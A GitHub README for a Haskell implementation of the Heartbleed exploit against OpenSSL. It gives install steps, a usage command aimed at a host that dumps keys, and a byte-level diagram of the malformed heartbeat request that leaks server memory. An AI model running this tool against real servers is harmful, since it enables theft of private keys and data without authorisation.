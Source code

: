 haskell-heartbleed: Implementation of OpenSSL Heartbeat bug exploit in Haskell
==============================================================================

Requirements and Insallation
----------------------------

This program depends on a couple packages, besides GHC of course:

* `Options<http://hackage.haskell.org/package/options>`_ - for argument parsing
* `Repa<http://hackage.haskell.org/package/repa>`_ - for searching through
memory chunks in parallel.
* `tls (customized)<https://github.com/lehins/hs-tls>`_ - version of `tls<http://hackage.haskell.org/package/tls>`_ library with hearbeat feature added to it.

Here is installation and compilation instructions:

.. code-block:: bash
   
   ~$ cabal update && cabal install Options repa
   ~$ git clone https://github.com/lehins/hs-tls
   ~$ cd hs-tls
   ~/hs-tls$ cabal install
   ~/hs-tls$ cd ..
   ~$ rm -R hs-tls
   ~$ git clone https://github.com/lehins/haskell-heartbleed
   ~$ cd haskell-heartbleed
   ~/haskell-heartbleed$ make
   ~/haskell-heartbleed$ ./heartbleed --help                

Example Usage
-------------

.. code-block:: bash
     
   $ ./heartbleed --host lehins.com --times 10 --output-keys dumps +RTS -N


Overview of Heartbeat Request
-----------------------------

Legitimate request and response::

                             _ Size of the payload  _Payload "foo"
    Request__               /                ______/
             \             /                /
    (..) [0x01] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes random padding] 

    Response_
             \
    (..) [0x02] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes other random padding] 

Request that exploits the bug, requesting 64K of memory from the server, notice
missing padding::
     
    
       _ Heartbeat      _TLS v1.0   _Message size  _Heartbeat Request  _Payload Size
      /                /           /      ________/   ________________/
     /                /           /      /           /
    [0x18] [0x03 0x01] [0x00 0x03] [0x01] [0xFF 0xFF]


Disclaimer
----------

This program was written for educational purpose only. Pointing this program at
any computer without prior agreement can be considered illegal and might cause
legal action, prosecution, fines and/or imprisonment. Use it at your own risk.
